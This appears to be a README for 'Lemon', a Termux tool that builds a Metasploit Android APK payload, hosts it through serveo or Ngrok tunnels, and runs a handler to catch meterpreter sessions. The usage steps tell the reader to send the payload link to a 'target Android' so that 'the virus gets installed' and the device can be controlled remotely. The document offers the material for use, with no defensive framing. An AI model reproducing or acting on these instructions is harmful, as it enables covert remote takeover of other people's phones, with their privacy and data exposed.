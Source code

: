 **Requirements :-**

1.Metasploit-Framework

2.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", type a name for your payload followed by ".apk" at the end, then choose a port of your own and choose a forwarding service, specify if you already have Ngrok or not, serveo requires no installation. It will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and read the info carefully. Now wait for the Handler to start, then type "set LPORT xxxx" Put the correct port and host according to the instructions, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.

